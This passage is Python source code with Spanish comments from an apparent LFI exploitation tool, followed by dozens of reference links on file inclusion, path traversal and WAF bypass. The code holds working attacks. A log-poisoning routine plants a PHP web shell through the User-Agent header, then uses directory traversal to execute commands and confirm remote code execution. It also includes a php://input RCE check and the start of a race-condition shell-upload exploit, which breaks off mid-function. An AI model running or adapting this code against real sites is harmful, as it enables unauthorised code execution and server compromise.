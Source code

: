 ```python
            vulnerable_wrappers.append({
                'wrapper': 'php://input',
                'type': 'rce_via_input',
                'description': 'RCE confirmado via php://input'
            })
  
        return vulnerable_wrappers
  
    def test_log_poisoning(self, log_files=['/var/log/apache2/access.log']):
        """
        Intenta log poisoning para RCE
        """
        poisoning_results = []
  
        for log_file in log_files:
            # Primero verificar acceso al log
            if not self._can_access_file(log_file):
                continue
          
            # Envenenar log con código PHP
            poison_payload = '<?php system($_GET["cmd"]); ?>'
      
            try:
                # Envenenar via User-Agent
                self.session.get(
                    self.base_url,
                    headers={'User-Agent': poison_payload},
                    timeout=5
                )
          
                # Intentar ejecutar comando via log envenenado
                cmd_payload = '../' * 6 + log_file.lstrip('/') + '&cmd=id'
          
                response = self.session.get(
                    self.base_url,
                    params={self.param: cmd_payload},
                    timeout=10
                )
          
                if 'uid=' in response.text and 'gid=' in response.text:
                    poisoning_results.append({
                        'log_file': log_file,
                        'method': 'user_agent_poisoning',
                        'rce_confirmed': True,
                        'command_output': response.text[:300]
                    })
                    print(f"[+] Log Poisoning RCE exitoso en {log_file}")
              
            except requests.RequestException:
                continue
          
        return poisoning_results
  
    def race_condition_exploit(self, upload_endpoint=None):
        """
        Explota condiciones de carrera para RCE
        """
        if not upload_endpoint:
            return []
      
        race_results = []
  
        def upload_shell():
```

[^1]: https://virtualcyberlabs.com/local-file-inclusion-lfi/
[^2]: https://atlansec.es/blog/posts/06-04-2025/
[^3]: https://www.invicti.com/learn/local-file-inclusion-lfi/
[^4]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_File_Inclusion
[^5]: https://www.offsec.com/metasploit-unleashed/file-inclusion-vulnerabilities/
[^6]: https://www.hackplayers.com/2018/12/race-condition-phpinfo-mas-lfi-rce.html
[^7]: https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition
[^8]: https://www.fastly.com/blog/back-to-basics-directory-traversal
[^9]: https://www.invicti.com/learn/directory-traversal-path-traversal/
[^10]: https://www.invicti.com/blog/web-security/php-stream-wrappers/
[^11]: https://infosecwriteups.com/rce-via-lfi-oscp-tactics-for-code-execution-and-gaining-a-foothold-on-a-system-b35d0655f3c7
[^12]: https://nsfocusglobal.com/path-traversal-attack-protection/
[^13]: https://www.slideshare.net/slideshow/waf-bypassing-techniques/64302972
[^14]: https://bugbase.ai/blog/top-10-ways-to-bypass-waf
[^15]: https://bogner.sh/2018/04/race-to-rce-there-is-more-on-the-web-than-just-xss/
[^16]: https://github.com/topics/lfi-detection?o=asc\&s=updated
[^17]: https://www.acunetix.com/vulnerability-scanner/lfi-vulnerability-scanner/
[^18]: https://stackoverflow.com/questions/64088681/how-to-test-and-exploit-lfi-vulnerabilities
[^19]: https://www.brightsec.com/blog/lfi-attack-real-life-attacks-and-attack-examples/
[^20]: https://www.avertium.com/flash-notices/wordpress-review-plugin-local-file-inclusion
[^21]: https://support.polarisec.com/en/docs/general-knowledge/lfi-and-rfi-attacks/
[^22]: https://github.com/advisories/GHSA-qq86-38fr-rcf3
[^23]: https://nvd.nist.gov/vuln/detail/CVE-2025-49138
[^24]: https://github.com/advisories/GHSA-p75g-cxfj-7wrx
[^25]: https://www.cvedetails.com/cve/CVE-2025-51057/
[^26]: https://owasp.org/www-community/attacks/Path_Traversal
[^27]: https://www.exploit-db.com/exploits/52125
[^28]: https://portswigger.net/web-security/file-path-traversal
[^29]: https://www.riskinsight-wavestone.com/en/2022/09/barbhack-2022-leveraging-php-local-file-inclusion-to-achieve-universal-rce/
[^30]: https://nvd.nist.gov/vuln/detail/CVE-2025-26905
[^31]: https://techbrunch.github.io/patt-mkdocs/Directory Traversal/
[^32]: https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-2/
[^33]: https://www.cve.org/cverecord?id=CVE-2025-0632
[^34]: https://www.aikido.dev/blog/path-traversal-in-2024-the-year-unpacked
[^35]: https://patchstack.com/articles/critical-lfi-to-rce-vulnerability-in-wp-ghost-plugin-affecting-200k-sites/
[^36]: https://wpscan.com/vulnerability/7570bd32-f660-44e7-abc6-5d4ea369fe30/
[^37]: https://advisories.checkpoint.com/defense/advisories/public/2024/cpai-2024-0395.html/
[^38]: https://deephacking.tech/php-wrappers-pentesting-web/
[^39]: https://www.cobalt.io/blog/a-pentesters-guide-to-file-inclusion
[^40]: https://brightsec.com/blog/local-file-inclusion-lfi/
[^41]: https://4geeks.com/lesson/local-file-inclusion-remote-file-inclusion
[^42]: https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass
[^43]: https://github.com/topics/lfi-scanner
[^44]: https://www.yeswehack.com/learn-bug-bounty/practical-guide-path-traversal-attacks
[^45]: https://medium.verylazytech.com/enhancing-your-understanding-of-local-file-inclusion-lfi-35a26f9efadd
[^46]: https://code.google.com/archive/p/teenage-mutant-ninja-turtles/wikis/AdvancedObfuscationPathtraversal.wiki
[^47]: https://fluidattacks.com/es/advisories/silva
[^48]: https://hackmd.io/@Solderet/list/%2FgZFHwwuQQo6ya_Q6ULYrdA
[^49]: https://www.scribd.com/document/857621425/Advanced-LFI-Bypass-Techniques
[^50]: https://gynvael.coldwind.pl/?id=418
[^51]: https://waf-bypass.com/2025/03/page/2/
[^52]: https://help.fortinet.com/fweb/605/Content/FortiWeb/fortiweb-admin/web_protection.htm
[^53]: https://www.youtube.com/watch?v=5g137gsB9Wk
[^54]: https://infosecwriteups.com/️-how-to-bypass-web-application-firewalls-wafs-8346e6e79dd3
[^55]: https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/783
[^56]: https://waf-bypass.com/2025/05/